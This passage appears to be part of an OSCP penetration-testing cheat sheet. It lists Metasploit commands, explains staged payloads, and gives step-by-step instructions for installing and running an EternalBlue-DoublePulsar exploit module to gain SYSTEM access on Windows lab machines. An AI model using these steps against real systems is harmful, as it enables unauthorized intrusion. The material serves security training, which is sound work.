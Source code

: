         `run`

    -   Execute an Exploit 
    
        `exploit`

    -   Search for a module  
    
       `search type:auxiliary login`

-   Metasploit Database Access

    -   Show all hosts discovered in the MSF database  
    
        `hosts`

    -   Scan for hosts and store them in the MSF database  
    
        `db_nmap`

    -   Search machines for specific ports in MSF database 
    
        `services -p 443`

    -   Leverage MSF database to scan SMB ports (auto-completed rhosts)  
        
        `services -p 443 --rhosts`

-   Staged and Non-staged

    -   Non-staged payload - is a payload that is sent in its entirety in one go

    -   Staged - sent in two parts  Not have enough buffer space  Or need to bypass antivirus
 
 -   MS 17-010 - EternalBlue

    -   You may find some boxes that are vulnerable to MS17-010 (AKA. EternalBlue).  Although, not offically part of the indended course, this exploit can be leveraged to gain SYSTEM level access to a Windows box.  I have never had much luck using the built in Metasploit EternalBlue module.  I found that the elevenpaths version works much more relabily. Here are the instructions to install it taken from the following YouTube video:
    https://www.youtube.com/watch?v=4OHLor9VaRI
    
      
      1. First step is to configure the Kali to work with wine 32bit
      
      `dpkg --add-architecture i386 && apt-get update && apt-get install wine32
      rm -r ~/.wine
      wine cmd.exe
      exit`
            
      2. Download the exploit repostory
      https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit
      
      3. Move the exploit to /usr /share /metasploit-framework /modules /exploits /windows /smb

      4. Start metasploit console
      

I found that using spoolsv.exe as the PROCESSINJECT yielded results on OSCP boxes.

      
      `use exploit/windows/smb/eternalblue_doublepulsar
      msf exploit(eternalblue_doublepulsar) > set RHOST 10.10.10.10
      RHOST => 10.11.1.73
      msf exploit(eternalblue_doublepulsar) > set PROCESSINJECT spoolsv.exe
      PROCESSINJECT => spoolsv.exe
      msf exploit(eternalblue_doublepulsar) > run`
      